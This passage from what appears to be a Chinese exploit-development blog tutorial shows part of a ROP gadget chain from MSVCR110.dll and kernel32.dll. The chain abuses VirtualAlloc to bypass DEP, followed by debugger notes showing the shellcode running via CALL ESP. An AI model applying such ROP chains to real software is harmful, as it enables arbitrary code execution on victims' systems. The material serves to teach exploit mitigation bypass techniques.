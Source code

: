 ```
      0x6935e68f,  // POP EDI // RETN [MSVCR110.dll] 
      0x69354486,  // RETN (ROP NOP) [MSVCR110.dll]

    0x771c80a2, // # XOR EAX,EAX # POP EBX # RETN   [kernel32.dll]   |   {PAGE_EXECUTE_READ}
    0x00000028, // Set EBX=0x00000028(40)

    0x693a7031,  // POP EAX // RETN [MSVCR110.dll] 
      0x90909090,  // nop
      0x69390267,  // PUSHAD // RETN [MSVCR110.dll] 
      
      0x9059016A,  //PUSH 1  // POP ECX 
      0x90909090,
      0x90909090,
      0x90909090,
      0x90909090
};
```

重新编译，使用OllyDbg打开，单步跟踪到VirtualAllocEx()函数入口点

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-17/2-7.png)

如图，查看传入的函数参数

内存长度被修改为0x00000028(40)，其他传入参数正常

继续运行，进入`CALL ESP`，shellcode成功执行


## 0x05 小结
---

利用VirtualAlloc绕过DEP同利用VirtualProtect绕过DEP一样，都需要注意内存页长度的限制，无法跨页修改或者申请内存，这就对shellcode的长度提出了要求

当然，正常调用API实现VirtualProtect和VirtualAlloc不会存在跨内存页失败的问题

mona自动生成的rop链可作为参考模板，结合rop.txt下的替代指令，可构造更合适的ROP链


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

